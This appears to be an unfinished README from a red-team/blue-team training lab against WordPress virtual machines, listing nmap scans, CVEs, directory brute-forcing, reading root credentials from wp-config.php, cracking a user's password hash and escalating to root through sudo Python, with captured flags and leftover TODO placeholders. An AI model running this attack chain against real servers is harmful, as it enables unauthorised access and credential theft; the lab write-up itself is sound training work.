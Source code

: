 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used: 
! [TODO: Identify the exploit used.]
! [TODO: Include the command run.]
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
![TODO:] gobuster - exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
![TODO:Update with output and command](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
![TODO:] exposed root password and then uncovered hashes via mysql
![TODO:] mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
- john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
- ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
![TODO:] gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
![TODO:] gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.

